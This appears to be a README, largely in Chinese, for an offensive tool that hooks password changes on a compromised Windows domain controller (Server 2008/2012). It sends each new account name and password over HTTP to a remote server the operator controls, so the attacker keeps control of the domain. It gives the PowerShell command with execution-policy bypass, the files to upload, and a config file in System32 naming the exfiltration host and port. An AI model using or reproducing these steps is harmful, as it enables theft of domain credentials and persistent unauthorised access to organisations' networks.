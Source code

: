# PasswordchangeNotify
when pass change ,send the pass to remote host 
一.	简介
工具用途在于我们所控制的域控服务器在修改密码之后，会通过http传输协议发送到我们指定的服务器上，从而我们不会丧失对域控服务器的控制权限。
适用于windows server2008和windows2012（已测）.
二.	操作步骤
1.步骤1
上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll
管理员权限执行：
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
如下图所示:
 
2步骤2
在C:\Windows\System32 新建配置文件 system.ini
其中第一行是你要连接的ip地址
第二行是你所连接的远程ip地址的端口
如下图所示:
 
3步骤3
当域控管理员修改账号之后会在远程服务器的web日志中出现修改后的账号和密码
如下图所示:



